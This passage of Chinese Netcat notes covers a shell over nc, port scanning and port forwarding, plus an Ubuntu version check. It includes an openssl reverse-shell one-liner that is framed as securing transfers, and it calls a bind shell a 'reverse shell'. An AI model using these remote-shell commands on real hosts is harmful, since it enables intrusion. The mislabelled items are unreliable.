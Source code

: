3. **反向 shell：**
   使用 Netcat 可以创建反向 shell 连接，允许你在远程主机上执行命令，如下所示：

   在目标主机上启动监听模式：
   ```bash
   nc -l -p <port> -e /bin/bash
   ```

   在攻击机上与目标主机建立连接：
   ```bash
   nc <target_ip> <port>
   ```

4. **端口扫描：**
   Netcat 可以用于进行基本的端口扫描，以检查目标主机上的哪些端口是开放的，如下所示：

   扫描前 1000 个端口：
   ```bash
   nc -zv <hostname> 1-1000
   ```

5. **代理和端口转发：**
   Netcat 可以用于创建简单的代理服务器或端口转发，如下所示：

   创建代理服务器：
   ```bash
   nc -l -p <port_to_listen> -c "nc <destination_host> <destination_port>"
   ```

   端口转发：
   ```bash
   nc -l -p <local_port> -c "nc <destination_host> <destination_port>"
   ```

6. **使用 SSL/TLS：**
   可以使用 `openssl` 命令来创建安全的加密连接，以保护数据的传输。例如：
   ```bash
   mkfifo /tmp/ncpipe && /bin/sh -i < /tmp/ncpipe 2>&1 | openssl s_client -quiet -connect <your_ip>:<your_port> > /tmp/ncpipe; rm /tmp/ncpipe
   ```

请谨慎使用 Netcat，确保你了解其功能和用途，以避免滥用或造成安全风险。不同的情况可能需要不同的选项和用法，建议在实际使用之前查阅官方文档和相关资源。

## 查看ubuntu版本

您可以使用以下命令来查看 Ubuntu 系统的版本信息：

1. **查看当前 Ubuntu 版本：**
   ```bash
   lsb_release -a
   ```

   或者

   ```bash
   cat /etc/lsb-release
   ```

   这些命令将显示当前安装的 Ubuntu 发行版的详细信息，包括发行版的代号、版本号和描述。
